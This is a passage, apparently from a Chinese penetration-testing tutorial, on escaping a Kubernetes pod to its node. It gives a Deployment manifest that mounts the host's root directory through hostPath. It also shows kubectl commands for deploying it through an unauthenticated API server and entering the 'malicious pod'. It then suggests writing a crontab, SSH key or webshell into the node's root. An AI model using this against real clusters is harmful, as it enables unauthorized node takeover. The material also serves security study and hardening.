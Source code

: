 ```bash
metadata:
  name: nginx-deployment
  labels:
    app: nginx-test
spec:
  replicas: 1
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      containers:
      - image: nginx
        name: container
        volumeMounts:
        - mountPath: /mnt
          name: test-volume
      volumes:
      - name: test-volume
        hostPath:
          path: /
```

将以上文本写入到一个 yaml 文件中，然后执行

```bash
kubectl apply -f xxxxx.yaml
如果是 api server 未授权打进去的，可能要通过-s 参数设置一下 api server 的 ip 和地址：kubectl -s http://master_ip:8080 command

这里再多嘴一句 kubectl apply 和 kubectl create 这两个命令的区别
两个命令都可以用于创建 pod，apply 更倾向于”维护资源“，可以用于更新已有 Pod；而 create 更倾向于”直接创建“，不管三七二十一给我创建就完事了
简而言之，当一个资源已经存在时，用 create 会报错，而 apply 不会报错
——————ref:https://stackoverflow.com/questions/47369351/kubectl-apply-vs-kubectl-create
```

恶意容器就创建好了

创建好了后使用命令 kubectl get pods 获取恶意 pod 的名字

然后使用命令 kubectl exec -it evilpodname /bin/bash 进入 pod 内部 shell，然后向挂载到 Pod 内部的 Node 根目录中写入恶意 crontab、ssh 公钥、webshell 即可拿到 node 的 shell。

大致流程一张图表示如下

[![image-20220311115835649](assets/1698894613-17247b420701f8106ca5af7e34abf7ac.png)](https://storage.tttang.com/media/attachment/2022/03/11/d4b20b14-c752-4cb3-b14f-d53f2e5b3050.png)
